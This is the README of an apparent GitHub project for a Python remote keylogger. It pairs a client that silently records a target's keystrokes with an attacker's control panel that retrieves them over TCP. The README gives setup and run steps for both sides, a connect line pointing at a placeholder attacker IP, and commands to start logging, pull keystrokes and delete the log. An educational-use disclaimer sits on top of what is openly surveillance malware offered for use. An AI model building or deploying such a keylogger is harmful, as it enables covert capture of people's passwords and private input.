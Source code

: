 # 🔐 Keylogger Remote Controller (Python)

This project is a **Python-based remote keylogger system** consisting of two components:

1. `client.py` – a keylogger program that runs on the target system and sends captured keystrokes to the server.
2. `hacker.py` – a control panel interface that runs on the attacker's machine to remotely control and retrieve keystrokes from the target.

> ⚠️ **Disclaimer**: This tool is intended strictly for **educational purposes**, **ethical hacking labs**, and **controlled environments only**. Misuse of this software may be illegal and is not the responsibility of the author.

---

## 🧠 How It Works

- The **client** runs silently on the target machine, records every keystroke, and stores it in a local file.
- The **server (hacker.py)** waits for the client to connect.
- The attacker can issue remote commands such as:
  - `start_logger` – start recording keys
  - `read_data` – retrieve the recorded keystrokes
  - `stop_logger` – stop and delete the log
  - `exit` – close the session

---

## ⚙️ Features

- Real-time keylogging using `pynput`
- Communication over TCP using Python’s `socket` module
- Threaded keylogger with file-based log handling
- Simple command-and-response interface

---

## 🚀 Usage Instructions

### ✅ 1. Setup

Make sure Python 3.x is installed on both attacker and target systems.

Install required dependencies:

```bash
pip install pynput
````

---

### 🖥️ 2. Running the Server (Attacker Side)

```bash
python hacker.py
```

* The server will start listening on port `9999` for incoming connections from the client.

---

### 🎯 3. Running the Client (Target Side)

Edit the `client.py` file and set the attacker's IP address:

```python
sc.connect(('YOUR_ATTACKER_IP', 9999))  # Replace with attacker's IP
```

Then run:

```bash
python client.py
```

---

### 💻 4. Control Panel Commands

Once the client connects, the control panel supports these commands:

| Command        | Description                        |
| -------------- | ---------------------------------- |
| `start_logger` | Begin keylogging                   |
| `read_data`    | Receive keystrokes from the client |
| `stop_logger`  | Stop keylogger and delete log file |
| `exit`         | Terminate the session              |

---

## 📎 Notes

* Default port: **9999**
* Keylogs are stored on the client side temporarily as `.log_data.txt`
* Use in **virtual lab or test environment** only

---

## 👨‍💻 Author
* A. Fakhrul Adani

## 🛡️ Legal Notice

> This software is provided for educational and ethical penetration testing only. The developers are not responsible for any misuse or damage caused by this tool.
